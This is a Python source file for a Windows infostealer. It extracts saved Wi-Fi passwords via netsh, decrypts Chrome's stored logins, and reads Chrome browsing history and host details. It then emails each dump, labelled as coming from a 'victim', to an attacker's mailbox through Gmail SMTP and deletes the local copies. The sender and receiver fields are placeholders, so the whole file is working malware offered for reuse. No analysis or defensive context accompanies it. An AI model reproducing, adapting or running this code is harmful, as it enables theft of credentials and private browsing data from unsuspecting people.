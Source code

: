 #!/usr/bin/python
import smtplib
import base64, os, sys, re
import sqlite3
import socket
import platform
import uuid

sender = '{sendere}'
reciever = '{yourmail}'
password = '{senderpass}'
# Dont change this
marker = "1"


def wifipass():
   def get_wlans():
      data = os.popen("netsh wlan show profiles").read()
      wifi = re.compile("All User Profile\s*:.(.*)")
      return wifi.findall(data)

   def get_pass(network):
      try:
         wlan = os.popen("netsh wlan show profile "+str(network.replace(" ","*"))+" key=clear").read()
         pass_regex = re.compile("Key Content\s*:.(.*)")
         return pass_regex.search(wlan).group(1)
      except:
         return " "

   f = open("wifi.txt","w")
   for wlan in get_wlans():
       f.write("-----------\n"+" SSID : "+wlan + "\n Password : " + get_pass(wlan))
   f.close()

wifipass()

################ CHROME ################
################  CODE  ################
################  HERE  ################
def history():
   import operator
   from collections import OrderedDict
#import matplotlib.pyplot as plt

   def parse(url):
           try:
                   parsed_url_components = url.split('//')
                   sublevel_split = parsed_url_components[1].split('/', 1)
                   domain = sublevel_split[0].replace("www.", "")
                   return domain
           except IndexError:
                   print ("URL format error!")

   def analyze(results):
      b=open("chrome1.txt","w")
      for site, count in sites_count_sorted.items():
         #print site, count
         b.write(site + "\n")
#path to user's history database (Chrome)
      b.close()
   data_path = os.path.expanduser('~')+r"\AppData\Local\Google\Chrome\User Data\Default"
   files = os.listdir(data_path)
   history_db = os.path.join(data_path, 'history')
#querying the db
   c = sqlite3.connect(history_db)
   cursor = c.cursor()
   select_statement = "SELECT urls.url, urls.visit_count FROM urls, visits WHERE urls.id = visits.url;"
   cursor.execute(select_statement)
   results = cursor.fetchall() 
   sites_count = {} 
   for url, count in results:
           url = parse(url)
           if url in sites_count:
                   sites_count[url] += 1
           else:
                   sites_count[url] = 1
   sites_count_sorted = OrderedDict(sorted(sites_count.items(), key=operator.itemgetter(1), reverse=True))
   analyze (sites_count_sorted)
################ CHROME ################
################  CODE  ################
################  HERE  ################
history()
def chrome():
   import os,sqlite3,win32crypt
   data=os.path.expanduser('~')+r"\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   connection = sqlite3.connect(data)
   cursor = connection.cursor()
   cursor.execute('SELECT action_url, username_value, password_value FROM logins')
   final_data=cursor.fetchall()
   a=open("chrome.txt","w")
   a.write("Extracted chrome passwords :\n")
   for website_data in final_data:
       password = win32crypt.CryptUnprotectData(website_data[2], None, None, None, 0)[1]
       one="Website  : "+str(website_data[0])
       two="Username : "+str(website_data[1])
       three="Password : "+str(password)
       a.write(one+"\n"+two+"\n"+three)
       a.write("\n"+"====="*10+"\n")
   a.close()

chrome()

################  EMAIL ################
################  CODE  ################
################  HERE  ################
filename = "wifi.txt"
fo = open(filename, "rb")
filecontent = fo.read()
encodedcontent = base64.b64encode(filecontent)

body = """
New stuff info from victim
""" 
part1 = """From: Victim <>
To: Filip <>
Subject: Victim wifi
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=%s
--%s
""" % (marker, marker)

part2 = """Content-Type: text/plain
Content-Transfer-Encoding:8bit

%s
--%s
""" % (body,marker)

part3 = """Content-Type: multipart/mixed; name=\"%s\"
Content-Transfer-Encoding:base64
Content-Disposition: attachment; filename=%s

%s
--%s--
""" %(filename, filename, encodedcontent, marker)

message = part1 + part2 + part3

try:
   smtpObj = smtplib.SMTP('smtp.gmail.com:587')
   smtpObj.starttls()
   smtpObj.login(sender, password)
   smtpObj.sendmail(sender, reciever, message)
   fo.close()
   os.remove("wifi.txt")
except Exception:
   print ("Error: unable to send email")
#################################################
filename = "chrome1.txt"
fo1 = open(filename, "rb")
filecontent = fo1.read()
encodedcontent = base64.b64encode(filecontent)

body = """
New stuff info from victim - History
"""
part1 = """From: Victim <>
To: Filip <>
Subject: Victim chrome history
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=%s
--%s
""" % (marker, marker)

part2 = """Content-Type: text/plain
Content-Transfer-Encoding:8bit

%s
--%s
""" % (body,marker)

part3 = """Content-Type: multipart/mixed; name=\"%s\"
Content-Transfer-Encoding:base64
Content-Disposition: attachment; filename=%s

%s
--%s--
""" %(filename, filename, encodedcontent, marker)

message = part1 + part2 + part3

try:
   smtpObj = smtplib.SMTP('smtp.gmail.com:587')
   smtpObj.starttls()
   smtpObj.login(sender, password)
   smtpObj.sendmail(sender, reciever, message)
   #print "Successfully sent email"
   fo1.close()
   os.remove("chrome1.txt")
except Exception:
   print ("Error: unable to send email")
###########################################
filename = "chrome.txt"
fo = open(filename, "rb")
filecontent = fo.read()
encodedcontent = base64.b64encode(filecontent)

body = """
New stuff info from victim
===========================
Name: %s
FQDN: %s
System Platform: %s
Machine: %s
Node: %s
Platform: %s
Pocessor: %s
System OS: %s
Release: %s
Version: %s
""" % (socket.gethostname(), socket.getfqdn(), sys.platform,platform.machine(),platform.node(),platform.platform(),platform.processor(),platform.system(),platform.release(),platform.version()) ###########
part1 = """From: Victim <>
To: Filip <>
Subject: Victim saved pass
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=%s
--%s
""" % (marker, marker)

part2 = """Content-Type: text/plain
Content-Transfer-Encoding:8bit

%s
--%s
""" % (body,marker)

part3 = """Content-Type: multipart/mixed; name=\"%s\"
Content-Transfer-Encoding:base64
Content-Disposition: attachment; filename=%s

%s
--%s--
""" %(filename, filename, encodedcontent, marker)

message = part1 + part2 + part3

try:
   smtpObj = smtplib.SMTP('smtp.gmail.com:587')
   smtpObj.starttls()
   smtpObj.login(sender, password)
   smtpObj.sendmail(sender, reciever, message)
   fo.close()
   os.remove("chrome.txt")
except Exception:
   print ("Error: unable to send email")
   
